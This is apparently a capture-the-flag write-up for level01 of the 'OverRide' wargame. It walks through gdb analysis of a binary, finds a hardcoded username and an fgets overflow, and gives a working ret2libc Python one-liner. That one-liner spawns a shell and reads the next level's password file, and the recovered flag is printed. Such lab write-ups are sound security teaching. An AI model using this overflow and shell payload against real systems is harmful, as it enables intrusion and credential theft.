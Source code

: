 ## Analyse

```sh
(gdb) x/50wx  0x0804a020
0x804a020 <stdin@@GLIBC_2.0>:   0xf7fcfac0      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040 <a_user_name>:        0x00000000      0x00000000      0x00000000      0x00000000
0x804a050 <a_user_name+16>:     0x00000000      0x00000000      0x00000000      0x00000000
```
> The global a_user_name is of size 16

On this call :

`0x08048574 <+164>:   call   0x8048370 <fgets@plt>`

We are setting the input of `0x100` in the buffer of `0x10` of the global.

So we can overflow with this call but there is a conditon just ahead of that and we have to enter in.

```sh
cmpl   $0x0,0x5c(%esp)
0x0804853b <+107>:   je     0x8048550 <main+128>
```
> Compare the return of verify_user_name

So we have to find a valid username, to do that we just have to set a break point in verify_user_name were the parameter is compare with the username

`0x0804848b <+39>:    repz cmpsb %es:(%edi),%ds:(%esi)`
> %edi == "dat_wil"

```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

So we got access to the vulnerable input 

With a simple pattern we can find that the `offset is 80`

## Exploit

We getting a shell with the ret2lic method :

- offset of 80
- system address
- exit address
- "/bin/bash" address

```sh
 level01@OverRide:~$ (python -c "print('dat_wil\n'+'A'*80+'\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\xec\x97\xf8\xf7\n')"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```